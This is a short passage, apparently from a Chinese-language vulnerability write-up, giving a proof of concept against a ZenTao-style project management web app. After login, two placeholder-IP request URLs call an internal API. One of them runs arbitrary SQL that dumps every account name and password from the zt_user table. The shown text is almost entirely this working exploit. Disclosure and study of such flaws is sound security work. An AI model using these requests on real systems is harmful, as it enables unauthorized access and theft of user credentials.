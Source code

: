 ![image-20220209203039142](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202092030188.png)

成功执行sql语句

## 漏洞POC

登陆后访问

```
http://xxx.xxx.xxx.xxx/api-getModel-user-getRealNameAndEmails-users=admin
```

```plain
http://xxx.xxx.xxx.xxx/api-getModel-api-sql-sql=select+account,password+from+zt_user
```